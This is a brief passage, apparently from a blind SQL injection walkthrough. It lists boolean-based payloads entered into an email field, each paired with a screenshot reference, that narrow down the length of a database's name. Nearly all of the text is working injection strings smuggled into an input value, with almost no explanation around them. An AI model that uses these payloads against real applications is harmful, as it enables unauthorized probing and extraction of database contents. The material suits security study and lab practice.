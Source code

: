 ```
123@123.com' and(select length(database())>20)-- -
```

![](./IMG/18.png)

```
123@123.com' and(select length(database())>10)-- -
```

![](./IMG/19.png)

```
123@123.com' and(select length(database())>5)-- -
```

![](./IMG/20.png)

```
123@123.com' and(select length(database())>9)-- -
```


![](./IMG/21.png)
```
123@123.com' and(select length(database())=10)-- -
```